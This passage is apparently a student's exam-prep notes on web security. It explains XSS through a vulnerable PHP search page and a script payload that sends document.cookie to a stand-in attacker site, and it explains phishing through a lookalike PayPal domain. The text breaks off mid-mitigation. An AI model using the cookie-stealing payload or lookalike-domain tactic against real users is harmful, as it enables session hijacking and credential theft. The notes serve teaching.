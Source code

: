 * What is an XSS attack? How it's related to the Same Origin Policy? Give an high level description of how to mount it and the main mitigation measures

  > An XSS attack is a Cross Site Scripting Attack. 
  >
  > Suppose we have `site.com/search.php?q=`. This website, whatever i type in to search, is going to write: 
  >
  > ```php
  > <?php
  >     echo "Here your result for"+$_GET['q'];
  > ?>
  > ```
  >
  > here i can type:
  >
  > ```html
  > <script>
  > 	window.open("http://mymalicioussite.com/?cookie="+document.cookie)
  > </script>
  > ```
  >
  > If it works, i'll send my authentication cookie to another website.
  >
  > I can give this link : 
  >
  > `site.com/search.php?q=<script>window.open("http://mymalicioussite.com/?cookie="+document.cookie)</script>`
  >
  > to someone and steal his/her cookies!
  >
  >
  >
  > This can be mitigated by **replacing** $<$ with `&lt;` or by **sanitizing and removing all** tags (or only the dangerous one) from the input.
  >
  > This attack eludes the Same Origin Policy because it's a `<script>` executed in the same page so it has the same origin and it's the page itself sending data outside.

* What is a phishing attack? Give an high level description of how to mount it and the main mitigation measures

  > A **phishing attack** is an attack which consist in letting an unsuspecting user visit a fake/malicious website, copying a true website, to steal personal information(Like login, password, codice fiscale,...)
  >
  > To make this attack our user Giulio receives a mail from paypal.
  >
  > This email is equal to a true paypal mail.
  >
  > This email uses real paypal embedded images, with real links.
  >
  > This email have a big button which is saying `reset your password`.
  >
  > Pressing this, Giulo gets redirected to `https://paypaI.com`(paypa**I**.com $I\ne l$), 
  >
  > The page does spoofing, having the same style/html of the original login page. When giulio put his login to this fake site, the website redirects giulio to the true paypal website, but keeps the login information for itself (and store them for the hacker).
  >
  >
  >
  > A possible mitigation is checking Certificates:
  >